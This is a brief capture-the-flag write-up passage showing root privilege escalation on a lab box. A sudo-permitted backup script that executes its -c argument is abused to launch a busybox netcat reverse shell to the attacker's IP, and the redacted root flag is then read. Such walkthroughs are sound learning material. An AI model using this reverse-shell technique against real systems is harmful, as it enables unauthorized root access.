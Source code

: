 ## Privilege Escalation root
I started with `sudo -l` and got the following output which pointed to an intersting file:
```bash
alex@ubuntu:~$ sudo -l
  Matching Defaults entries for alex on ubuntu:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User alex may run the following commands on ubuntu:
      (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```
The script `backup.sh` has two very intersting parts which can be missused:
```bash
$ cat backup.sh
[*** removed ***]
while getopts c: flag
do
        case "${flag}" in
                c) command=${OPTARG};;
        esac
done
[*** removed ***]
cmd=$($command)
echo $cmd
```
The script checks for a parameter called `-c` and executes the given command in this part `cmd=$($command)`. I started a reverse listener and execute the script:
```bash
$ sudo ./backup.sh -c 'busybox nc 10.21.63.26 9001 -e sh'

-- on the attacker machine --

$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.21.63.26] from (UNKNOWN) [10.10.48.122] 48004
whoami
root
cat /root/root.txt
flag{*** removed ***}
```

solved! :)
